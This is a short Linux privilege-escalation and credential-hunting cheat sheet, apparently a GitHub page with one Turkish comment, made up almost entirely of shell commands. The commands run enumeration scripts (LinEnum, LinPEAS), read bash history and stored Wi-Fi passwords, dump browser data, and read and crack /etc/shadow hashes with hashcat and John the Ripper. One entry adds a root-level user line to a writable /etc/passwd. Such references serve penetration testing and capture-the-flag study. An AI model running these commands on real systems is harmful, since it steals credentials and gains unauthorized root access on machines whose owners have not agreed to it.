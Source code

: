 ```shell
locate password | more
```

- Lin

```shell
./lin_enum_sh
```

- peas

```shell
./LinPEAS.sh
```

### History & Config Files

- history

```shell
cat .bash_history
```

### Browser Dump

```shell
./hack-browser-data-linux-amd64
```

### Wifi Passwords

- Wifi parolalarını görüntülemek için

```shell
cat /etc/NetworkManager/system-connections/*
```

### Readable Shadow File

```shell
ls -l /etc/shadow
cat /etc/login.defs
hashid <hash>
hashcat -m 1800 -a 0 <hash> /usr/share/wordlists/rockyou.txt
john hash -w=/usr/share/wordlists/rockyou.txt
```

### Writable Shadow File

```shell
mkpasswd -m sha-512 password
```

### Writable Passwd File

```shell
mkpasswd -m sha-512 password
test:<HASH>:0:0::/home/test:/bin/bash
```
